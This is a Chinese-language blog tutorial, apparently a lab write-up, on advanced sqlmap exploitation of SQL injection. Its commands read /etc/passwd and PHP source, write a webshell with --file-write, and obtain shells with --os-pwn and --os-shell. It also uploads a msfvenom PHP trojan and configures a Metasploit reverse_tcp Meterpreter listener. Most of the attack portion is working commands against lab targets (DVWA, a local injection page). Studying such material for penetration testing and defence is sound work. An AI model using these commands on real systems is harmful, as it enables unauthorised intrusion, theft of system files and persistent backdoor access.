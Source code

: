 ```yaml
---
layout:     post
title:      SQLMAP不为我所知的技巧
subtitle:   SQLMAP高级技巧
date:       2019-07-25
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

# 前言
在以前很长的一段时间，我都仅仅使用了SQLMAP验证SQL注入、脱库的功能，最近看到国外的几篇将SQLMAP的文章，才发现SQLMAP可以做更加深入的事情...不愧是SQL注入神器，把SQL注入利用到了极致！本文主要讲解SQLMAP 读写文件、SQLMAP 与MSF 反弹shell。

# 环境的准备
在以下的过程中，我总共搭建了2个靶机，1台攻击机，为什么准备两个靶机是有原因的，由于Metasploitable2权限问题，导致有一些写入操作无法实现。
靶机：
* Windows 10 自己写的SQL注入页面
* Metasploitable2 靶机中的DVWA

攻击机：
* Kali Linux
# 找SQL注入点
现在假设我们从真实的网站中找到了SQL注入漏洞，我们可以这样做，使用sqlmap -u 参数或者直接保存数据包使用sqlmap -r 参数，如下图所示：

保存HTTP数据包并且命名为DVWA.txt文件，并复制到Kali Linux中：
![图片](../../../../img/sqlmap_unknown1.png)
在Kali Linux攻击机上输入以下命令：
```
sqlmap -r DVWA.txt
```
从下图我们可以判断出，该网站存在SQL注入漏洞：
![图片](../../../../img/sqlmap_unknown2.png)

# 读写文件
常规的脱库，这里就不说了，相信大家都会~，下面讲解一下，通过SQL注入读取php文件源码与系统文件和写入webshell的操作。
## 前提
在开始下面的步骤前，我们需要先对注入点进行"信息搜集"，搜集当前数据库的用户名、当前数据库用户的权限、网站的绝对路径这些信息。
sqlmap查看当前数据库用户的命令如下：
```
sqlmap -r DVWA.txt --current-user
```
从图中我们可以知道当前数据库的用户为root：
![图片](../../../../img/sqlmap_unknown3.png)

sqlmap查看数据库用户权限的命令如下：
```
sqlmap -r DVWA.txt --privileges
```
从sqlmap回显回来的内容中搜索，root用户对应的权限，从下图中我们可以看到root用户有file权限：
![图片](../../../../img/sqlmap_unknown4.png)

对于网站绝对路径的获取，网上的方法有很多，这里就不介绍了，主要还是靠人品。假设存在注入点的网站根目录下存在phpinfo.php，从而让我们获取到了网站的绝对路径，如下图所示，玩这个的绝对路径为/var/www。
![图片](../../../../img/sqlmap_unknown5.png)

## 读文件
当你具备了以上三个条件，就可以尝试读取php源码和系统文件了。
在Kali Linux中输入以下命令，我发现sqlmap提示下载成功，但是打开下载成功的文件，发现是空的或者是一个问好，可能是权限问题吧
```
sqlmap -r DVWA.txt --file-read="/var/www/dvwa/phpinfo.php"
```
但是通过以下命令，读取系统文件却是可以的
```
sqlmap -r DVWA.txt --file-read="/etc/passwd"
```
![图片](../../../../img/sqlmap_unknown6.png)

后来我在Windows上的SQL注入靶场中尝试了，成功下载了php源码：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --file-read="E://php//WWW//sql//sql/get.php"

```

![图片](../../../../img/sqlmap_unknown7.png)

## 写文件
既然可以读取文件，那么肯定会想到写入文件，那么我们下面就来试一试。
通过输入如下的命令，我们可以写入文件：
注意
--file-write是写入到靶机的绝对路径;
--file-dest是物理机webshell存放的绝对路径;
```
python sqlmap.py -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --file-dest="E://php//WWW//sql//sql/phpinfo.php" --file-write="E://php//WWW//phpinfo.php"
```
从下图sqlmap的提示信息中，我们可以看到我们成功的写入了webshell，这里以phpinfo.php为例。
![图片](../../../../img/sqlmap_unknown8.png)
打开网站目录确认该文件也确实写入成功！
![图片](../../../../img/sqlmap_unknown9.png)
# 获取meterpreter shell
难道仅仅只能读写文件嘛？No，下面来通过靶场来演示通过SQL注入获取meterpreter shell；
## --os-pwn
当SQL注入点权限高且知道网站绝对路径的情况下，使用sqlmap --os-pwn 选项。
在Kali Linux攻击机中输入以下命令，sqlmap会让我们进行选择设置：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --os-pwn
```
如下图所示，这里我们要选择【1】TCP：Metasploit Framework，脚本语言选择【4】PHP
![图片](../../../../img/sqlmap_unknown10.png)
接下来选择【2】custom location输入网站绝对路径，连接的类型选择【1】Reverse TCP:Connect back from the database host to this machine ，再填入攻击机的IP地址和端口，最后选择【2】Shell：
![图片](../../../../img/sqlmap_unknown11.png)
配置完成后，sqlmap会自动运行MSF，等待一分钟左右成功反弹回了Windows 靶机的shell，如下图所示：
![图片](../../../../img/sqlmap_unknown12.png)
## --os-shell
sqlmap 还有自动留webshell的操作，我以前都没看提示信息...
### sqlmap自动留后门
当SQL注入点权限高且知道网站绝对路径的情况下，使用sqlmap --os-shell 选项。
在Kali Linux攻击机中输入以下命令，sqlmap会让我们进行选择设置：
```
sqlmap -u "http://10.20.40.95/sql/sql/get.php?news_id=1" --os-shell
```
--os-shell 在成功获取到交互shell后，会在网站目录下生成2个后门文件，如下图所示：
![图片](../../../../img/sqlmap_unknown13.png)
一个是用来执行系统命令的后门文件：
![图片](../../../../img/sqlmap_unknown14.png)
一个是用来上传文件的后门文件：
![图片](../../../../img/sqlmap_unknown15.png)

使用msfvenom生成一个php木马，复制代码并且保存为shell.php，通过上传接口上传：
![图片](../../../../img/sqlmap_unknown16.png)

在Kali Linux上打开msfconsole并输入以下命令：
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 10.20.30.137
set lport 4444
run
```
![图片](../../../../img/sqlmap_unknown17.png)

访问shell.php，Kali Linux中成功收到反弹回来的shell，如下图所示：
![图片](../../../../img/sqlmap_unknown18.png)

![图片](../../../../img/sqlmap_unknown19.png)
